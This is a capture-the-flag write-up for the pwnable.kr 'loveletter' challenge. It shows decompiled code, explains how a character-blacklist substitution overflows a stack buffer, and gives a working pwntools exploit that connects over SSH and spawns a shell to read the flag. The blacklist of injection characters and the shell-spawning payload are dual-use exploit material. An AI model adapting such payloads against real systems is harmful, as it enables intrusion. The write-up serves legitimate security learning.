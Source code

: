 # Pwnable.kr loveletter CTF Writeup

## Problem Description
The code of the program is:
### main
```c
080493a5  int32_t main(int32_t argc, char** argv, char** envp)

080493ac      void* const __return_addr_1 = __return_addr
080493b4      int32_t* var_14 = &argc
080493cb      char** argv_1 = argv
080493d1      void* gsbase
080493d1      int32_t eax_1 = *(gsbase + 0x14)
080493ed      memset(&loveletter, 0, 0x100)
080493ff      size_t eax_3 = strlen(epilog)
08049414      size_t eax_5 = strlen(prolog)
08049429      printf(format: &data_804a021)
08049449      void buf
08049449      fgets(&buf, n: 0x100, fp: *stdin)
08049449      
08049470      if (*(&buf + strlen(&buf) - 1) == 0xa)
08049487          *(&buf + strlen(&buf) - 1) = 0
08049487      
08049499      puts(str: &data_804a03c)
080494ab      protect(&buf)
080494bd      size_t eax_12 = strlen(&buf)
080494d2      puts(str: &data_804a068)
080494fb      memcpy(&loveletter + zx.d(idx), prolog, eax_5)
08049511      idx += eax_5.w
08049539      memcpy(&loveletter + zx.d(idx), &buf, eax_12)
0804954f      idx += eax_12.w
08049577      memcpy(&loveletter + zx.d(idx), epilog, eax_3)
0804958d      idx += eax_3.w
0804959e      puts(str: &data_804a08c)
080495a6      gid_t egid = getegid()
080495b7      setregid(rgid: getegid(), egid)
080495c9      system(line: &loveletter)
080495d9      *(gsbase + 0x14)
080495d9      
080495e0      if (eax_1 == *(gsbase + 0x14))
080495f1          return 0
080495f1      
080495e2      __stack_chk_fail_local()
080495e2      noreturn
```

### protect
```c
08049216  int32_t protect(char* arg1)

08049235      void* gsbase
08049235      int32_t eax_1 = *(gsbase + 0x14)
08049240      int32_t var_127
08049240      __builtin_strncpy(dest: &var_127, src: "#&;`\'\"|*?~<>^()[]{}$\\,", n: 0x17)
08049240      
08049376      for (int32_t i = 0; strlen(arg1) u> i; i += 1)
08049350          for (int32_t j = 0; strlen(&var_127) u> j; j += 1)
080492c4              if (arg1[i] == *(j + &var_127))
080492e2                  void var_110
080492e2                  strcpy(&var_110, &arg1[i + 1])
080492f8                  *(arg1 + i) = 0xa599e2
08049308                  size_t eax_13 = strlen(&var_110)
08049337                  memcpy(&arg1[strlen(arg1)], &var_110, eax_13)
08049337      
08049397      if (eax_1 == *(gsbase + 0x14))
080493a4          return eax_1 - *(gsbase + 0x14)
080493a4      
08049399      __stack_chk_fail_local()
08049399      noreturn
```

when running, we see this:
```bash
loveletter@ubuntu:~$ ./loveletter
♥ My lover's name is : itamar
♥ Whatever happens, I'll protect her...
♥ Impress her upon my memory...
♥ Her name echos in my mind...
I love itamar very much!
```
The program gets an input and replace every character that is in the "blacklist" (can cause command injection) with an heart. we need to get a shell and read the flag.

## Analysis
The first thing i saw is that there is a bug in the `protect()` function. the bug is when the program replaces a character with an heart, it doesnt put a null terminator at the end. 
The bug is on this line:
`memcpy(&arg1[strlen(arg1)], &var_110, eax_13)`.
it should be:
`memcpy(&arg1[strlen(arg1)], &var_110, eax_13 + 1)`

in addition, each character is one bytes, however the heart is 3 bytes. that means that when replace a charater witg an heart, it makes the input string longer (by 2 bytes). We can also see that the max length of the input is 0x100 (256 characters), and its located on the stack. that means that we can use the fact that the `protect()` fucntion makes our input buffer longer to preform buffer overflow in the stack. when we look in the `main()` function we can see that its stack looks like this:
```
eax_3 (epilog length) - 4 bytes
----------------------
eax_5 (prolog length) - 4 bytes
----------------------
buf[0x100]            - 256 bytes
```

## Exploit Code
```python
from pwn import *

context.log_level = 'info'

session = ssh(user='loveletter', host='pwnable.kr', port=2222, password='guest')
p = session.process(['nc', '0', '9034'])

payload = b"nv sh -c bash "
payload += b"A" * (253 - len(payload))
payload += b"#"
payload += b"\x01"

print(payload)

p.sendline(payload)
p.interactive() # cat flag
```

